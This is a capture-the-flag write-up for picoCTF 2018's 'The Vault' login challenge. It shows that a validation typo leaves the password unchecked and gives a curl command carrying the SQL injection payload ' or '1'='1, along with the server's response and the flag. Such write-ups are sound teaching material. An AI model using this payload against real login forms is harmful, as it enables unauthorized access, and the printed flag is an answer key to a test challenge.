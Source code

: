 # The Vault
## Question
>There is a website running at `http://2018shell.picoctf.com:56537` ([link](http://2018shell.picoctf.com:56537/)). Try to see if you can login! 

## Hint
>NA

# Solution
The [login.php source code](files/login.txt) is available as a link at the bottom of the authentication page.
It reveals several things:
* the database is SQLite3
* connection details and probably the `$FLAG` variable are stored in `config.php`
* there is a hidden variable named `debug` that you can use to show the SQL request which will be executed
* user inputs are checked (some characters are forbidden) to prevent SQL injection
* if the SQL request returns a result, the flag is displayed, else, `Login failed.` will appear

That's a lot of information. Let's analyze the SQL injection protection.

Carefully analyzing the PHP code will reveal a typo the developer has made. Notice that the `preg_match` is done twice for the `$username`, even for the `$password_match`, hence leaving the `password` input unchecked.
```php
  //validation check
  $pattern ="/.*['\"].*OR.*/i";
  $user_match = preg_match($pattern, $username);
  $password_match = preg_match($pattern, $username);
  if($user_match + $password_match > 0)  {
    echo "<h1>SQLi detected.</h1>";
  }
```

Let's exploit this vulnerability:
~~~~
$ curl -d "username=admin&password=' or '1'='1&debug=1" -X POST http://2018shell.picoctf.com:56537/login.php
<pre>username: admin
password: ' or '1'='1
SQL query: SELECT 1 FROM users WHERE name='admin' AND password='' or '1'='1'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{w3lc0m3_t0_th3_vau1t_c09f30a0}</p>
~~~~

# Flag
`picoCTF{w3lc0m3_t0_th3_vau1t_c09f30a0}`
